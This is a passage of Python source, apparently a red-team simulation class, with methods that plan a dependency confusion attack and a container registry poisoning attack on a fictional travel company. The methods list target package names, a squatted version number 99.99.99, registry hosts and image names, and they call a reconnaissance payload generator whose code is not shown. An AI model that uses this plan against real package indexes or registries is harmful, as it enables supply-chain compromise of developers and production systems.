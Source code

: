 ```python
        return extracted_info
    
    def execute_dependency_confusion_attack(self) -> Dict[str, Any]:
        """Execute dependency confusion based on NullBulge techniques"""
        # Based on the NullBulge campaign's Python package poisoning
        target_packages = [
            'travelai-internal-utils',   # Likely internal package name
            'booking-api-client',        # Common internal naming
            'travel-policies-data',      # Data package
            'amadeus-custom-wrapper'     # API wrapper
        ]
        
        malicious_packages = []
        
        for package_name in target_packages:
            # Create malicious package with higher version number
            malicious_package = {
                'name': package_name,
                'version': '99.99.99',  # Version squatting
                'payload': self.create_reconnaissance_payload(),
                'distribution_method': 'PyPI upload',
                'persistence_method': 'requirements.txt modification'
            }
            
            malicious_packages.append(malicious_package)
        
        return {
            'attack_vector': 'dependency_confusion',
            'target_packages': target_packages,
            'malicious_packages': malicious_packages,
            'expected_impact': 'Code execution in development/production environments'
        }
    
    def exploit_container_registry_vulnerability(self) -> Dict[str, Any]:
        """Exploit container registry based on AWS SageMaker Shadow Resource pattern"""
        # Based on the AWS "Bucket Monopoly" attack pattern
        container_registries = [
            'travelai-ml-models.azurecr.io',
            'travelai-prod.dkr.ecr.us-east-1.amazonaws.com',
            'gcr.io/travelai-project/ml-inference'
        ]
        
        poisoning_strategy = {
            'target_images': [
                'booking-recommendation-model:latest',
                'fraud-detection-service:v2.1',
                'travel-nlp-processor:stable'
            ],
            'attack_method': 'Image layer poisoning',
            'payload_type': 'Post-installation script injection',
            'persistence': 'Scheduled container updates'
        }
        
        # Simulate registry reconnaissance
        vulnerable_registries = []
        for registry in container_registries:
            if self.test_registry_access(registry):
                vulnerable_registries.append({
                    'registry': registry,
                    'vulnerability': 'Weak access controls',
                    'exploitation_method': 'Credential stuffing or leaked tokens'
                })
        
```